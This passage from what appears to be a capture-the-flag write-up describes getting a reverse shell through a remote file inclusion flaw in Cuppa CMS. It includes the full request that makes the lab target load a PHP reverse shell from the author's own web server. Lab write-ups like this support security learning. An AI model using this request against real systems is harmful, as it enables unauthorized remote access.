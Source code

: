 ## Exploit Cuppa CMS
Then, I remembered that the CMS used in the applications has some vulns...
And, when i searched for, i've seen that :  

!["cuppa_exploit.png"](pictures/cuppa_exploit.png)  


So I could use it to spawn a reverse shell : 
- I curl the pentest monkey php reverse shell and edit it with my tun0 IP and the port 1234
- I started a python http webserver like that : 
```bash
python -m http-server 8000
```
- I used the RFI vulnerability to spawn the reverse shell at :
```
http://10.10.209.177/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.14.34:8000/reverse_shell.php
```
OK! Reverse shell spawned !

## User Flag
